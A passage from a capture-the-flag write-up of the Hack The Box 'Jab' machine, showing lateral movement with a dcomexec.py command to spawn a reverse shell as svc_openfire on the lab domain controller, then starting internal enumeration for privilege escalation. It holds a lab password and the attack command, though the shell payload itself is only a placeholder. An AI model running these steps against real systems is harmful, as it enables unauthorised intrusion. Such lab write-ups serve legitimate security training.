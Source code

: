 This will allow us to run commands on the Domain Controller:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/jab/image-26.png)

Using this, we will be able to spawn reverse shell as the uer **svc_openfire**.

### ExecuteDCOM

Before exploiting **ExecuteDCOM**, let's first prepare reverse shell payload using [revshell](www.revshells.com):


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/jab/image-27.png)

Now using **dcomexec.py**, we should be able to spawn a reverse shell on our netcat listener:

`dcomexec.py -object MMC20 jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 'reverse_shell_command' -silentcommand`

After running the command, we have reverse shell connection on our netcat listener as **svc_openfire**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/jab/image-28.png)

It is now time for us to move on to privilege escalation.
## Privesc: svc_openfire to system

Let's first see if there's any interesting ports open internally:

`netstat -ano | findstr '127.0.0.1'`
